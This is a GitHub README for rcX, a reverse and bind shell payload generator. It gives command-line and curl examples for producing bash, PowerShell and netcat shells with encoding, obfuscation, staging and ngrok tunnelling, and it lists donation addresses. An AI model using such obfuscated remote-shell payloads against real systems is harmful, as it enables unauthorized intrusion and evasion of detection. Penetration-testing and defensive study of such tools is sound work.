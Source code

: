 
[![Build](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml/badge.svg)](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml)
[![Python 2.6|2.7|3.8|3.9](https://img.shields.io/badge/python-2.6|2.7|3.6|3.7|3.8|3.9|3.10-green.svg?logo=python&logoColor=yellow)](https://www.python.org/)
[![GitHub release](https://img.shields.io/github/v/tag/FlyfishSec/rcX.svg?label=release&color=green)](https://github.com/FlyfishSec/rcX/releases)
[![License](https://img.shields.io/badge/license-GPLv2-red.svg?color=green)](https://cdn.rawgit.com/FlyfishSec/rcX/main/LICENSE)
# [<img width="80" src="https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/logo.png"/>](https://github.com/FlyfishSec/rcX/releases)
## What is rcX?
### "rc" - stands for remote command or remote code.
### "X" - you can understand as assistant or tool.

  The predecessor of rcX is rsGen(A Reverse Shell Payload Generator). Currently, it is a powerful Reverse/Bind shell Generator.
  More features will be added in the future.
  
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-main.png "rcX")

## Follow me
`pip install -r requirements.txt`
or Download the packaged binaries
### CLI Usage
#### Example:
##### 1.Get a bash reverse shell and output in tabular format.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-table.png "rcX")
##### 2.Custom shell path.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -s "/bin/sh"`
##### 3.Copy the specified id payload to the clipboard.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table -c 5`
##### 4.Get a base64 encoded bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -e base64`
##### 5.Get a xor encoded and obfuscated bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -e xor --obf reverse --table --clip 7`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-obf.png "rcX")
##### 6.Get a staging bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --staging-url 0 --staging-cmd 0`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-staged.png "rcX")
##### 7.Get a staging bash reverse shell and forward local port using ngrok tunnel.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --tunnel ngrok_jp`
##### 8.Get a Windows Powershell reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t powershell -P windows`
#### ...

### Web UI
> At the same time, rcX also provides a web interface. 
Use rcX as a server then you can use it with your team or friends.
> Tip: When rcX is running as a server, if the request origin is not 127.0.0.1 or localhost, the ngrok tunnel feature will be disabled and the related options will be hidden on the Front-end
#### Example:
`python rcX.py -w`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-web.gif "rcX")

### Web CLI
> When rcX is running as a server, you can use curl in terminal to get the payload.
#### Example:
##### 1.Get a bash reverse shell payload
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-web-cli.png "rcX")
##### 2.Base64 encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64`

##### 3.Base64 and hex encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64,hex`

##### 4.Gzip compress and replace_char(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/gzip/replace_char`

##### 5.xor encoded and reverse(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/xor/reverse`

##### 6.Get a Windows powershell reverse shell payload
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444`

##### 7.replace_char(obfuscation method) only without using encoder
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444/,/replace_char`

##### 8.Only use staging, without any encoder and obfuscator
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/,/,/1/1`

##### 9.Get a bind linux netcat shell payload
  `curl http://127.0.0.1/bind/linux/netcat/127.0.0.4/8888`


## Support rcX

|Bitcoin Address QR Code|Ethereum Address QR Code|Monero Address QR Code|DOGECOIN Address QR Code|
|:--------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:--------------------------------------------------------------------------------------------------------------------------:|
| <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-btc.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-eth.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-xmr.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-doge.png"/> |

*BTC*: 3F2R6KMXbJ576yJNJpjrBnhVG64Ltg1WoF

*ETH*: 0xab15323b0c7721B6B9fDf5A8089a6Ec697C9feED

*XMR*: 48rBRHh2iV27oHzXMGnjbwCLLyinpqFry6gLTAaQiFVtMRw4kqabeoFiBYqNAPCBHbKjgQezPNLwDihMSNbEPCuYP1xzCWi

*Dogecoin*: DBQATuB7t4wk56dwFqcGdqQtY8BSjL77if


